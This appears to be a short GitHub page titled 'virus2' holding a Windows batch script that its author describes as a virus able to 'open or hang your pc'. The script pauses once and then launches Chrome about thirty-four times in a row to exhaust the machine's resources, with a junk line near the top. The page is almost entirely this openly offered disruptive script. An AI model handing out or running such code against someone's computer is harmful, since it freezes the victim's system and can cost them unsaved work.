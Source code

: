 # virus2
this type of virus can open or hang your pc by opening your browser chrome



@echo off
hgjhjghjg
pause


start chrome.exe
start chrome.exe
start chrome.exe
start chrome.exe
start chrome.exe
start chrome.exe
start chrome.exe
start chrome.exe
start chrome.exe
start chrome.exe
start chrome.exe
start chrome.exe
start chrome.exe
start chrome.exe
start chrome.exe
start chrome.exe
start chrome.exe
start chrome.exe
start chrome.exe
start chrome.exe
start chrome.exe
start chrome.exe
start chrome.exe
start chrome.exe
start chrome.exe
start chrome.exe
start chrome.exe
start chrome.exe
start chrome.exe
start chrome.exe
start chrome.exe
start chrome.exe
start chrome.exe
start chrome.exe

